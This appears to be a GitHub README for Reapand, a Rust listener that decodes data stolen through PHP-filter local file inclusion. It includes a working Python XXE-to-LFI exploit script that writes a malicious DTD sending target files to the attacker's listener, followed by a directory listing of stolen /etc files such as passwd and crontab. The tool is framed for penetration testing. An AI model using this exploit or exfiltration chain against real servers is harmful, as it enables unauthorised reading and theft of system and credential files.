

# Reapand 
## Author: [Raphael Dray](https://www.linkedin.com/in/raphaeldray/)
Reapand is a fast command line tool written in Rust, built to reap data from 
LFI/[PHP-Filters](https://www.php.net/manual/en/filters.php) source for example.

For now the tool supports principals encoding of php-filters:
* **Zlib**
* **Bzip2**
* **Base64**

It also serves local files and so can be used to serve malicious files
during Out Of Bound exploitation.

Its main purpose is to be used in conjunction with a script that 
uses a wordlist of interesting files.

Reapand is licensed under the Apache 2.0 License.
## Command Line Usage
```
@@@@@@@   @@@@@@@@   @@@@@@   @@@@@@@    @@@@@@   @@@  @@@  @@@@@@@
@@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@ @@@  @@@@@@@@
@@!  @@@  @@!       @@!  @@@  @@!  @@@  @@!  @@@  @@!@!@@@  @@!  @@@
!@!  @!@  !@!       !@!  @!@  !@!  @!@  !@!  @!@  !@!!@!@!  !@!  @!@
@!@!!@!   @!!!:!    @!@!@!@!  @!@@!@!   @!@!@!@!  @!@ !!@!  @!@  !@!
!!@!@!    !!!!!:    !!!@!!!!  !!@!!!    !!!@!!!!  !@!  !!!  !@!  !!!
!!: :!!   !!:       !!:  !!!  !!:       !!:  !!!  !!:  !!!  !!:  !!!
:!:  !:!  :!:       :!:  !:!  :!:       :!:  !:!  :!:  !:!  :!:  !:!
::   :::   :: ::::  ::   :::   ::       ::   :::   ::   ::   :::: ::
 :   : :  : :: ::    :   : :   :         :   : :  ::    :   :: :  :

reapand 1.3.0
Raphael Dray <dray.raph@gmail.com>
Create files by decoding client input from specified encodings

USAGE:
    reapand.exe [OPTIONS] --encode <encoding>... [--] [ip|hostname]

OPTIONS:
    -h, --help       Print help information
    -V, --version    Print version information

ENCODING:
    -e, --encode <encoding>...    Order of encoding applied to the content [possible values: b64,
                                  zlib, bzip2, rot13]

LISTENER:
    -p, --port <port>    Port Listener [default: 4444]
    <ip|hostname>    Host Listener [default: 0.0.0.0]

OUTPUT:
    -d, --dir <dir>    Directory in which will be saved files [default: .]

Command Line Usage Examples:
reapand -e b64,zlib -p 20000 -d files/
reapand -e b64,bzip2 -- 127.0.0.1
```

### Example
In order to use this tool we can build a tiny python script 
during the exploitation of there an XXE2LFI:
```python
#!/usr/bin/env python3

from time import sleep
from requests import Session
from sys import argv

s = Session()

LISTENER_IP = argv[1]
LISTENER_PORT = argv[2]
TARGET_URL = argv[3]
WORDLIST = argv[4]

ENCODINGS = [
    "bzip2.compress",
    "convert.base64-encode"
]

LFI_PAYLOAD = f"""
<!ENTITY % file SYSTEM "php://filter/{"/".join(ENCODINGS)}/resource=[FILE]">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://{LISTENER_IP}:{LISTENER_PORT}/[REAPAND_FMT_FILE]?%file;'>">
%eval;
%exfiltrate;
"""

with open(WORDLIST) as f:
    for l in f:
        with open("evil.dtd", "w") as writer:
            writer.write(LFI_PAYLOAD.replace("[FILE]", l.strip("\n")).replace("[REAPAND_FMT_FILE]", l.replace("/", "_").strip("\n")))

        s.post(TARGET_URL, files={'text': open("CV.docx", "rb")}, data={
            "name": "reapand",
            "email": "reapand",
            "submit": "submit"
        })
        sleep(1)
```

Note, this script is just an example of what you could build in 
conjunction with Reapand.

```bash
❯ tree -R files/
files/
└── etc
    ├── crontab
    ├── fstab
    ├── hosts
    ├── hosts.allow
    ├── hosts.deny
    ├── issue
    ├── lsb-release
    ├── mtab
    ├── network
    │   └── interfaces
    ├── networks
    └── passwd

2 directories, 11 files
```

Then we get all the content of the readable files on the remote filesystem !